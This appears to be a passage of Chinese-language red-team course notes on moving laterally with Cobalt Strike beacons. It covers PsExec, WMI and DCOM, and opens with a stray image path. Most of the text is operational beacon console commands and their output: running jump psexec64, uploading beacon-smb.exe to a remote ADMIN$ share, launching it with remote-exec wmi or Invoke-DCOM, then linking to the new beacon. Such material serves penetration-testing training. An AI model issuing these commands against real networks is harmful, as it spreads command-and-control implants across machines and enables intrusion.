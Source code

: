 ```


## PsExec

psexec和psexec64是唯一执行```jump```命令后可以自动执行进程迁移的方法（默认为rundll32.exe），这样做是为了自动从磁盘中删除上传的服务二进制文件。

```
beacon> jump psexec64 srv-1 smb
Started service dd80980 on srv-1
[+] established link to child beacon: 10.10.17.25
```


## Windows Management Instrumentation (WMI)

WMI 不是jump命令的一部分，但它是remote-exec命令的一部分

```
beacon> cd \\srv-1\ADMIN$
beacon> upload C:\Payloads\beacon-smb.exe
beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe
Started process 536 on srv-1
```

上面命令执行完以后，该进程已经在srv-1运行，需要用```link```命令连接

```
beacon> link srv-1
[+] established link to child beacon: 10.10.17.25
```

## DCOM

Beacon 没有通过Distributed Component Object Model (DCOM) 进行交互的内置功能，因此必须使用诸如[Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1)之类的外部工具。我们将在后面的模块中看到如何将其集成到jump命令中

```
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName srv-1 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
Completed

beacon> link srv-1
[+] established link to child beacon: 10.10.17.25
```
